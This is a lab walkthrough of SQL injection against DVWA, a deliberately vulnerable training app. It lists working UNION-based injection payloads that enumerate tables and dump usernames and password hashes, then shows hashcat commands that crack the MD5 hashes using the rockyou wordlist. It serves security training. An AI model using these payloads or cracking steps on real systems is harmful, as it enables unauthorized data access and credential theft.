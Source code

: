 ## DVWA - SQL Injection

Based on <https://github.com/digininja/DVWA>

With reference to <https://github.com/mrudnitsky/dvwa-guide-2019>

### Methodology:

1. Identity query vulnerability
2. Identify injection vector
3. Identify number of columns (range) using `ORDER BY`
4. Identify data display positions in the page
5. Retrieve database/version/user information
6. Enumerate tables
7. Enumerate columns
8. Retrieve data

References:
- <https://blog.csdn.net/m0_54899775/article/details/121941275>
- <https://medium.com/@hninja049/step-by-step-sql-injection-ed1bb97b3eae>

## 1. Identify query vulnerability

#### Legitimate input

Input: `1`

Output:

![image](images/sqli-dvwa-1.png)

#### Testing for error-based SQL injection

Input: `1'`

Output: `You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1''' at line 1`

## 2. Identify injection vector (bypass authentication)

The error was `''1'''` when using `1'` as input → guessing that backend SQL query should be using single quotes on the id: `'$id'`

Test: close the enquiry with a single `'` and drop everything behind using `#`

Input: `1' #`

Output:

![image](images/sqli-dvwa-2.png)

Injection vector found!

## 3. Identify range

Try to find the number of columns retrieved by the query to match the `UNION SELECT` injection later

(It should be quite obvious that the range is 2, since the output only have 2 items)

Input: `1' ORDER BY 3 #`

Output: `Unknown column '3' in 'order clause'`

This means there is no third column in the query, i.e. range is 2

## 4. Identify data display positions

Input: `1' UNION SELECT 1,2 #`

Output:

![image](images/sqli-dvwa-3.png)

The UNION'd selection appends an additional entry to the output.

Looks like the output just recursively displays every row returned in the query.

(Try: using `1' OR 1=1 #` will return all usernames in the table!)

## 5. Retrieve database/version/user information

Input: `1' UNION SELECT DATABASE(),VERSION() #`

Output:

![image](images/sqli-dvwa-4.png)

## 6. Enumerate tables

Input: `1' UNION SELECT TABLE_SCHEMA,TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA=database() #`

| Field | Description |
| --- | --- |
| `TABLE_SCHEMA` | The database which the table belongs to |
| `TABLE_NAME` | The name of the table |
| `information_schema.TABLES` | MySQL keeps information of all tables and columns in `information_schema` |
| `TABLE_SCHEMA=database()` | Selecting only rows related to the database that the web app is currently using |

Output:

![image](images/sqli-dvwa-5.png)

## 7. Enumerate columns

Input: `1' UNION SELECT TABLE_NAME,COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_NAME='users' #`

| Field | Description |
| --- | --- |
| `TABLE_NAME` | The table which the column belongs to |
| `COLUMN_NAME` | The name of the column |
| `information_schema.COLUMNS` | MySQL keeps information of all tables and columns in `information_schema` |
| `TABLE_SCHEMA=database()` | Selecting only rows related to the database that the web app is currently using |

Output:

![image](images/sqli-dvwa-6.png)

We have found the column where user passwords are stored!

## 8. Retrieve data

Let's try to dump the passwords!

Input: `1' UNION SELECT user,password FROM users #`

Output:

![image](images/sqli-dvwa-7.png)

## 9. Cracking the passwords

The passwords retrieved from the database are password hashes, we need to crack them to get the clear text

Copy the password hashes into a file on Kali:

```sh
cat << EOF >> hashes.txt
5f4dcc3b5aa765d61d8327deb882cf99
e99a18c428cb38d5f260853678922e03
8d3533d75ae2c3966d7e0d4fcc69216b
0d107d09f5bbe40cade3de5c71e9e9b7
5f4dcc3b5aa765d61d8327deb882cf99
EOF
```

Ask hashcat to guess which format is the hash

Command: `hashcat hashes.txt`

```
The following 11 hash-modes match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+======================================
    900 | MD4                                                        | Raw Hash
      0 | MD5                                                        | Raw Hash
     70 | md5(utf16le($pass))                                        | Raw Hash
   2600 | md5(md5($pass))                                            | Raw Hash salted and/or iterated
   3500 | md5(md5(md5($pass)))                                       | Raw Hash salted and/or iterated
   4400 | md5(sha1($pass))                                           | Raw Hash salted and/or iterated
  20900 | md5(sha1($pass).md5($pass).sha1($pass))                    | Raw Hash salted and/or iterated
   4300 | md5(strtoupper(md5($pass)))                                | Raw Hash salted and/or iterated
   1000 | NTLM                                                       | Operating System
   9900 | Radmin2                                                    | Operating System
   8600 | Lotus Notes/Domino 5                                       | Enterprise Application Software (EAS)
```

Let's try cracking it using MD5 mode against the `/usr/share/wordlists/rockyou.txt` wordlist

Command: `hashcat -m 0 hashes.txt /usr/share/wordlists/rockyou.txt`

```
5f4dcc3b5aa765d61d8327deb882cf99:password
e99a18c428cb38d5f260853678922e03:abc123
0d107d09f5bbe40cade3de5c71e9e9b7:letmein
8d3533d75ae2c3966d7e0d4fcc69216b:charley
```

Violà! Passwords cracked!
